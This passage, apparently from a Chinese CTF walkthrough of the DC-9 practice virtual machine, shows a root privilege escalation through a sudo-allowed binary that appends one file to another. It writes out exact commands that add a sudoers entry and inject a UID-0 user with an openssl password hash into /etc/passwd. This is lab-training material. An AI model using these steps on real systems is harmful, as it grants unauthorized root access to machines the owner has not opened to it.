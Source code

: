 /opt/devstuff/dist/test/test 是一个可执行文件，执行后出现下面的提示，应该是一个 python 脚本转化为的可执行的文件

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEIC7lrT7M3qV1A2fNDKJjDPczawOLb4BicHmrtG61g7xPaiaW47HSAaGQ/640?wx_fmt=jpeg)

可以在上级目录找到同名的 test.py 然后 cat 下内容，应该是由这个文件编译过来的

脚本的作用就是将第一个文件的内容附加到另一个文件里面去

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEFXKqL7HIaDFjzoJV9yUibl7fl2U1XSxm6Ddia6cOdicVI9Oc0YQxNJ65A/640?wx_fmt=jpeg)

这样提权就变得非常简单，这里提供 2 个提权的思路

提权思路 1：往 / etc/sudoers 里面添加内容，让用户可以以 root 的权限去执行命令

创建 / dev/shm/sudoerAdd，内容如下

```
joeyt ALL=(ALL) ALL
```

然后执行

```
sudo /opt/devstuff/dist/test/test /dev/shm/sudoerAdd /etc/sudoers
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEbfwB7anJsILWgfB7An1CianzWZica3icYxWngXH0ZMLFcTz1X3vicuEIlg/640?wx_fmt=jpeg)

然后登陆 joeyt，然后切换成 root 身份，get flag

提权思路 2：添加一个新的用户到 / etc/passwd，然后新添加的用户登陆

这里用 Openssl 来对密码进行加密, 在进行编辑输入到 / tmp/new-passwd

```
openssl passwd ‐1 ‐salt 123456 dfz
```

```
dfz:$1$123456$1VU0YpuL7WOQvLLyYTbbv1:0:0:root:/root:/bin/bash
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwESbKHytTBxdxc65ydVXJddmBiaReL0D0VZNUWicI5N1kyEFlcPtgpjPIA/640?wx_fmt=jpeg)

然后把 / tmp/new-passwd 写入到 / etc/passwd

```
sudo /opt/devstuff/dist/test/test /tmp/new‐passwd /etc/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEicbolG705ONCx4MSm3HWv2nM1nEs40picic2XudjrQtTO4mOmTXGq9lpw/640?wx_fmt=png)

**靶机下载地址：http://www.five86.com/downloads/DC-9.zip**  

